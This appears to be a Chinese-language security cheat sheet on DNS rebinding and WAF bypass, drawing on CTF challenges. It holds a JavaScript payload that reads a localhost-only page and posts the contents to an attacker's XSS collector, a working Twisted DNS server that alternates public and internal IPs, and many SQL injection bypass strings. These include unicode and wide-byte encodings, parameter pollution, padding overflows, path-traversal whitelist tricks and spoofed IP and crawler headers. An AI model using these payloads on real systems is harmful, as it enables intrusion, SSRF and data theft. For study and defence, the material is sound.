



**\#1). DNS Rebinding:**

一般来说浏览器通过向DNS服务器发送请求将用户输入的域名转换为ip地址，然后向对应的IP地址请求资源，最后回显给用户。

这是一般过程。在说DNS
rebinding之前先说下TTL的概念。TTL表示DNS里面域名和IP绑定关系的Cache在DNS上存活的最长时间。即请求了域名与iP的关系后，请求方会缓存这个关系，缓存保持的时间就是TTL。而缓存失效后就会删除，这时候如果重新访问域名指定的IP的话会重新建立匹配关系及cache。

而dns就是利用这个来实现的。当用户第一次访问，解析域名获取一个IP地址；然后，域名持有者修改通过某种方式对应的IP地址；用户再次请求该域名，就会获取一个新的IP地址。对于浏览器来说，整个过程访问的都是同一域名，所以认为是安全的。这就造成了DNS
Rebinding攻击。

dns rebinding被广泛用于bypass同源策略，绕过ssrf的过滤等等。

实现方式有几种，原理都差不多。

**实现方法一：特定域名实现**

这种方式针对的某些特定的域名，现在国内购买的域名大都无法直接将TTL设置为0，例如我的阿里云的域名，最小的TTL是10分钟。

而某些国外的域名可以设置TTL=0。

举个例子，0ctF2016的monkey题目。当时就是通过dns rebinding绕过过滤的。

大概过程是这样子的。你能向服务器提交一个URL,并且服务器会访问你提交的url。

然后flag藏在服务器的本身的http://127.0.0.1/secret上。只能本地访问。

但是这里你提交你能控制的页面www.x.com/index.php，但是由于同源策略的原因你没办法去获取服务器上的http://127.0.0.1/secret。
但是通过dns rebinding就可以了。 比如你的页面如下：

\<script src=http://\*\*\*\*\*\*\*\*\*/static/jquery.min.js \>\</script\>

\<script\>

setTimeout("POST()",90000)

function POST(){

alert();

\$.ajax({

url:"http://www.x.com/secret",

type:"GET",

success: function(data){

\$.post("http://你的xss平台",{'a':data})}

}

);

}

\</script\>

整个过程如下：

-   1.你提交的是www.x.com/index.php，内容如上述代码

-   2.设置你的域名的TTL=0，提交之后服务器会请求dns的域名与ip的关系然后找到你的这个页面，然后开始执行js。

-   3.执行的时候先延迟90s，利用这延迟的90s，去修改你域名的A记录绑定到127.0.0.1上

-   4.然后js延迟结束之后之后又会请求http://www.x.com/secret，由于你之前设置的TTL=0，所以又会重新向dns服务器请求一次ip。得到ip=127.0.0.1，而整个过程访问的都是同一域名，所以浏览器认为是安全的。就会成功去访问http://127.0.0.1/secret，从而绕过同源策略

当时做这个题目的时候借助就是别人的国外域名。可以直接设置dns 的TTL=0。

(ps:过程简略，只是说明原理并非详细完整的题解，中间例如端口号省略了，若是不理解可以谷歌详细的WP)
但是国内的域名都没办法怎么办？不能专门为了做题买个国外的域名把？别急继续看

**实现方法二：简单粗暴的两条A记录**

具体姿势可以看看33C3
CTF的list0r这个题，传送门：[33c3-CTF-web-WriteUp](http://bendawang.site/article/33c3-CTF-web-WriteUp)

这个题最后的方法就是利用DNS重绑定。
简单的说就是已知服务器会向DNS服务器发送两次解析请求。
我们最后一步的目的就是要让第一次解析出来是个外网ip，第二次解析出来是个内网ip。

所以我采用的方法是这样：

同一个域名绑定两条A记录。这样解析是随机的。
(ps:同时绑定两条A记录，在请求解析的时候并不一定交替返回)

去撞1/4的概率，即当服务器第一次解析出来是个外网ip，第二次解析出来是个内网ip的时候就有flag了。

当然一看这样的概率那么也就意味着这不是一个好的办法了。
好的办法一定要百分百成功啊。

**实现方法三：自建DNS服务器**

终于来到最完美的方法，其实前面扯了那么多还是懒，譬如第二种方法，简单到疯狂提交撞概率就行了。

但是某些情况下不行，譬如这次的cuit校赛lemon师傅出的300分的短域名工具这个题目。

最后要提交四条链接，如果按照上述的方法，每一次都是1/4的概率，那么(1/4)的4次方就不用做题了。。。XD。。。

所以我们需要自建DNS服务器，让它第一次请求解析记录的时候我们给他返回外网，第二次请求解析记录的时候返回一个内网ip。
具体的题解去看lemon师傅的博客，传送门：[短域名工具wp及出题心得](http://www.cnblogs.com/iamstudy/articles/13th_cuit_game_wp_web300_ssrf.html)

说道自建服务器的步骤如下： 需要先添加一条ns记录和一条a记录

ns记录表示域名test.bendawang.site这个子域名指定由ns.bendawang.site这个域名服务器来解析，然后a记录表示我的这个ns.bendawang.site的位置在ip地址104.160.43.154上。

这样我们就可以在这个ip上搭建一个服务器就行了。

这里搭建DNS服务器采用python的twisted库中的name模块，代码如下：

from twisted.internet import reactor, defer

from twisted.names import client, dns, error, server

record={}

class DynamicResolver(object):

def \_doDynamicResponse(self, query):

name = query.name.name

if name not in record or record[name]\<1:

ip="104.160.43.154"

else:

ip="171.18.0.2"

if name not in record:

record[name]=0

record[name]+=1

print name+" ===\> "+ip

answer = dns.RRHeader(

name=name,

type=dns.A,

cls=dns.IN,

ttl=0,

payload=dns.Record_A(address=b'%s'%ip,ttl=0)

)

answers = [answer]

authority = []

additional = []

return answers, authority, additional

def query(self, query, timeout=None):

return defer.succeed(self._doDynamicResponse(query))

def main():

factory = server.DNSServerFactory(

clients=[DynamicResolver(), client.Resolver(resolv='/etc/resolv.conf')]

)

protocol = dns.DNSDatagramProtocol(controller=factory)

reactor.listenUDP(53, protocol)

reactor.run()

if \__name_\_ == '__main__':

raise SystemExit(main())

直接root权限运行就可以了。

然后自己尝试dig test.bendawang.site就知道了。

**\#2). WAF Bypass:**

服务器特性

1.%特性(asp+iis)

在该环境下当输入s%elect时，在WAF层解析出来的结果是s%elect，但在iis+asp的环境中，解析结果为select

可能是iis下asp.dll解析时的问题，aspx+iis环境没有这个特性

2.%u特性(asp+iis和aspx+iis)

iis支持unicode解析

select -\> s%u006c%u0006ect

被iis解析后仍为select

3.另类%u特性(asp+iis)

主要利用unicode在iis解析后会被转换成multibyte，但转换的过程中可能出现:多个widechar会有可能转换为同一个字符。如select中的e对应的unicode为%u0065，但%u00f0同样会被转换成为e。

s%u0065lect-\>select s%u00f0lect-\>select

union+select+from:

s%u0045lect = s%u0065lect = %u00f0lect

u --\> %u0055 --\> %u0075

n --\>%u004e --\> %u006e

i --\>%u0049 --\> %u0069

o --\>%u004f --\> %u006f --\>%u00ba

s --\>%u0053 --\> %u0073

l --\>%u004c --\> %u006c

e --\>%u0045 --\> %u0065--\>%u00f0

c --\>%u0043 --\> %u0063

t --\>%u0054 --\>%u0074 --\>%u00de --\>%u00fe

f --\>%u0046 --\>%u0066

r --\>%u0052 --\>%u0072

m --\>%u004d --\>%u006d

4. apache畸形method

在GET请求中，GET可以替换为任意参数名字，不影响apache接收参数。

TEST /sql.php?id=1 HTTP/1.1

Host: 127.0.0.1

User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:48.0) Gecko/20100101
Firefox/48.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,\*/\*;q=0.8

Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3

Accept-Encoding: gzip, deflate

Connection: close

Upgrade-Insecure-Requests: 1

应用层特性

1.大小写/关键字替换

绕过只针对特定关键字，大小写不敏感。

id=1 UnIoN/\*\*/SeLeCT 1,user()

将关键字进行等价替换：

Hex() bin() 等价于ascii()

Sleep() 等价于 benchmark()

Mid()substring() 等价于 substr()

\@\@user 等价于 User()

\@\@Version 等价于 version()

2.双重url编码

s -\> %73 -\> %25%37%33

一般情况下在代码层默认做一次url解码，这样解码之后的数据一般不会匹配到规则，达到了bypass的效果

3.变换请求方式

将GET变成POST提交

\<html\>\<head\>\</head\>\<body\>

\<form action="http://192.168.204.128/test.php" method="post"
enctype="multipart/form-data"\>

\<input type="text" name="id"\>

\<input type="submit"\>

\</form\>\</body\>\` \`\</html\>

上传数据包参数：

\------WebKitFormBoundaryACZoaLJJzUwc4hYM

Content-Disposition: form-data; name="id"

1

from information_schema.SCHEMATA

\------WebKitFormBoundaryACZoaLJJzUwc4hYM--

4.HPP参数污染

?id=1&id=2&id=3的形式，此种形式在获取id值时不同的web技术获取的值是不一样的

Asp.net + iis：id=1,2,3

Asp + iis：id=1,2,3

Php + apache：id=3

MSSQL:

大小写：?id=1 UNION/\*&ID=\*/SELECT 1,2/\*&Id=\*/FROM ADMIN

GET+POST形式:

http://192.168.125.140/test/sql.aspx?id=1 union/\*

post: id=2\*/select null,null,null

利用逗号：?id=1 union select 1&id=2&id=3&id=4 from admin--（无逗号形式）

?a=1+union/\*&b=\*/select+1,pass/\*&c=\*/from+users--(分割参数注入)

无效参数形式：?a=/\*&sql=xxx&b=\*/

备注：a,b为无效参数，让waf误以为我们输入的语句是在注释符里面执行的所以就不拦截

溢出形式：?id=1/\*&id=\*//\*&id=\*//\*......&id=\*//\*&id=\*/ union select
null,system_user,null from INFORMATION_SCHEMA.schemata

Mysql：

?id=1&id=1&id=1&id=1&id=1&id=1&id=1&id=….. &id=1 union select 1,2 from admin

5.宽字节

宽字节关键字对照表：

union = uю%69яю这里把i不用宽字节 直接url编码 其他的字符都用对应的宽字节

select = こхlх%уt //t不编码 其他的都宽字节 中间插上%

from = цR%яэ //宽字节+%

空格=%20=%ва //в是2的款字符 а是0的宽字符

, = Ь //,号的宽字节

数据库特性

1、Mysql技巧

（1）mysql注释符有三种：\#、/\*...\*/、-- ... (注意--后面有一个空格)

（2）空格符:[0x09,0x0a-0x0d,0x20,0xa0]

（3）特殊符号：%a 换行符

可结合注释符使用%23%0a，%2d%2d%0a。

（3）内联注释：

/\*!UnIon12345SelEcT\*/ 1,user() //数字范围 1000-50540

（4）mysql黑魔法

select{x username}from {x11 test.admin};

2、SQL Server技巧

（1）用来注释掉注射后查询的其余部分：

/\* C语言风格注释

\-- SQL注释

; 00％ 空字节

（2）空白符：[0x01-0x20]

（3）特殊符号：%3a 冒号

id=1 union:select 1,2 from:admin

（4）函数变形：如db_name[空白字符]()

3、Oracle技巧

（1）注释符：--、/\*\*/

（2）空白字符：[0x00,0x09，0x0a-0x0d,0x20]

4、更多特性

那些代码层防护，只能用数据库特性来正面怼，一般一个SQL语句组成包括如下几个位置：

select \* from admin where
id=1【位置一】union【位置二】select【位置三】1,2,db_name()【位置四】from【位置五】admin

通过对常见的5个位置进行FUZZ，可以探索更多能够绕过WAF的数据库特性。

[WAF
Bypass数据库特性（Mysql探索篇）](http://mp.weixin.qq.com/s?__biz=MzA3NzE2MjgwMg==&mid=2448903977&idx=1&sn=008229fe76b96e4a229a3a4144fcb284&chksm=8b55df74bc225662a50c05b4e7a1a911e177e3e276658571c0438bba803a69fff0e1748f4812&scene=21#wechat_redirect)

[WAF
Bypass数据库特性（MSsql探索篇）](http://mp.weixin.qq.com/s?__biz=MzA3NzE2MjgwMg==&mid=2448903991&idx=1&sn=6bd5b6988dc0464f0a3170de6d5e3cae&chksm=8b55df6abc22567ce93b042363a40f7c78775a95ce37232f5983c361993ef23b0f07ef2515b9&scene=21#wechat_redirect)

[WAF
Bypass数据库特性（Oracle探索篇）](http://mp.weixin.qq.com/s?__biz=MzA3NzE2MjgwMg==&mid=2448903996&idx=1&sn=9e2a7f2bd659781d1cd244bcadb74f6b&chksm=8b55df61bc2256774d09cbf4ac24ad83bb53fec33f69c6de2bebfe3dbfbdaed8599b9995b0d1&scene=21#wechat_redirect)

[WAF
Bypass数据库特性（Access探索篇）](http://mp.weixin.qq.com/s?__biz=MzA3NzE2MjgwMg==&mid=2448903997&idx=1&sn=b77179090e88e8be9e7eb81ee148202b&chksm=8b55df60bc22567631c12e86450390a9e14cf50fc73e0cd19d17610b8ccc63fd761b25df9705&scene=21#wechat_redirect)

WAF 层

1、逻辑问题

（1）云waf防护，一般我们会尝试通过查找站点的真实IP，从而绕过CDN防护。

（2）当提交GET、POST同时请求时，进入POST逻辑，而忽略了GET请求的有害参数输入,可轻易Bypass。

（3）HTTP和HTTPS同时开放服务，没有做HTTP到HTTPS的强制跳转，导致HTTPS有WAF防护，HTTP没有防护，直接访问HTTP站点绕过防护。

（4）特殊符号%00，部分waf遇到%00截断，只能获取到前面的参数，无法获取到后面的有害参数输入，从而导致Bypass。比如：id=1%00and
1=2 union select 1,2,column_name from information_schema.columns

2、性能问题

猜想1：在设计WAF系统时，考虑自身性能问题，当数据量达到一定层级，不检测这部分数据。只要不断的填充数据，当数据达到一定数目之后，恶意代码就不会被检测了。

猜想2：不少WAF是C语言写的，而C语言自身没有缓冲区保护机制，因此如果WAF在处理测试向量时超出了其缓冲区长度就会引发bug，从而实现绕过。

举例1：

?id=1 and (select 1)=(Select
0xA\*1000)+UnIoN+SeLeCT+1,2,version(),4,5,database(),user(),8,9

PS：0xA\*1000指0xA后面”A"重复1000次，一般来说对应用软件构成缓冲区溢出都需要较大的测试长度，这里1000只做参考也许在有些情况下可能不需要这么长也能溢出。

举例2：

?a0=0&a1=1&.....&a100=100&id=1 union select 1,schema_name,3 from
INFORMATION_SCHEMA.schemata

备注：获取请求参数，只获取前100个参数，第101个参数并没有获取到，导致SQL注入绕过。

猜想3：多次重复提交同一个请求，有些通过了WAF，有些被WAF所拦截了，性能问题可能导致部分请求bypass。

3、白名单

方式一：IP白名单

从网络层获取的ip，这种一般伪造不来，如果是获取客户端的IP，这样就可能存在伪造IP绕过的情况。

测试方法：修改http的header来bypass waf

X-forwarded-for

X-remote-IP

X-originating-IP

x-remote-addr

X-Real-ip

方式二：静态资源

特定的静态资源后缀请求，常见的静态文件(.js .jpg .swf
.css等等)，类似白名单机制，waf为了检测效率，不去检测这样一些静态文件名后缀的请求。

http://10.9.9.201/sql.php/1.js?id=1

备注：Aspx/php只识别到前面的.aspx/.php 后面基本不识别

方式三：url白名单

为了防止误拦，部分waf内置默认的白名单列表，如admin/manager/system等管理后台。只要url中存在白名单的字符串，就作为白名单不进行检测。常见的url构造姿势：

http://10.9.9.201/sql.php/admin.php?id=1

http://10.9.9.201/sql.php?a=/manage/&b=../etc/passwd

http://10.9.9.201/../../../manage/../sql.asp?id=2

waf通过/manage/“进行比较，只要uri中存在/manage/就作为白名单不进行检测，这样我们可以通过/sql.php?a=/manage/&b=../etc/passwd
绕过防御规则。

方式四：爬虫白名单

部分waf有提供爬虫白名单的功能，识别爬虫的技术一般有两种：

1、 根据UserAgent 2、通过行为来判断

UserAgent可以很容易欺骗，我们可以伪装成爬虫尝试绕过。

User Agent Switcher (Firefox 附加组件)，下载地址:

https://addons.mozilla.org/en-US/firefox/addon/user-agent-switcher/

常见的爬虫User-Agent：

UserAgent: "Mozilla/5.0 (compatible; Googlebot/2.1;
+http://www.google.com/bot.html)"

UserAgent: "Baiduspider+(+http://www.baidu.com/search/spider.htm)"

UserAgent: "Mozilla/5.0 (compatible; Yahoo! Slurp;
http://help.yahoo.com/help/us/ysearch/slurp)"
